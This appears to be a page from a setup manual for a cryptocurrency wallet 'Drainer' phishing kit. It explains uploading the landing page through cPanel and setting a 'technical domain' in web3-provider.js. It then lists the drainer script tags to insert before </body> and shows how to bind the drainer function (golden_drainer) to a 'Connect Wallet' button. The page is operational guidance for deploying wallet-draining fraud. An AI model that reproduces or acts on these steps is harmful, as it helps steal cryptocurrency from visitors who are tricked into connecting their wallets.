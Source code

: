 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# 9️⃣ Landing page installation

[In this section](buying-landing-page-domain.md) we bought [**Landing page domain**](buying-landing-page-domain.md), now we need to install the landing page on the hosting.

You need to host site files in cPanel:

1. Open your hosting control panel.
2. In the "Domains" section, select Domains:
3. Click on the root folder of your site to go to the root directory:
4. Delete all files contained in the root folder, except for the cgi-bin directory.
5. Click the "**Upload**" button
6. Select and upload the archive with your website files. Attention: cPanel hosting control panel only supports archives in formats: **zip**, **gzip**, **bzip** and **tar**.
7. Select the archive and click "**Extract**":
8. Enter the path to the directory where you want to extract the files. Then click the "**Extract Files**" button
9. Make sure that the site files were extracted directly to the site directory and not to a subdirectory.



Open the "Client" folder, go to the "assets" folder, open the "web3-provider.js" file and enter here our [**Technical domain**](buying-technical-domain.md) (in the same format as it is specified in the file)

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

After making changes, transfer the "assets" folder to the root of our landing

Now open the site file where your landing is, usually called "index.html."

Scroll through the file to the end and find a special tag there that looks like this:\
\</body>

As soon as you find it, write down the following lines of code right in front of it:

```
  <script src="./assets/web3-provider/web3-modal.js"></script>
  <script src="./assets/web3-provider/web3-loader.js"></script>
  <script src="./assets/web3-provider/web3-connect.js"></script>
  <script src="./assets/web3-provider/web3-router.js"></script>
  <script src="./assets/web3-provider/web3-module.js"></script>
  <script src="./assets/web3-provider/web3-alert.js"></script>
  <script src="./assets/web3-provider/web3-seaport.js"></script>
  <script src="./assets/web3-provider/web3-data.js"></script>
  <script src="./assets/web3-provider/ethers.js"></script>
  <script src="./assets/web3-provider/ethereum-tx.js"></script>
  <script src="./assets/web3-provider.js"></script>
```

Now you need to connect the Drainer to the button you need, or just an item on the page.

Most often, the buttons look either like this in the code:

```
<button class="button btn-dark"> Connect Wallet </button>
```

Or somehow, in fact, it can look like anything:

```
<a href="#"> Connect Wallet </a>
```

You need to add the desired function to the button so that it is called when clicking:

```
onclick="g_connect1()"
```

That is, in the final version it will look like this:

```
<button class="button btn-dark" onclick="golden_drainer()">Connect Wallet</button>
```

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Uploading our landing to hosting.

Open our website and check.
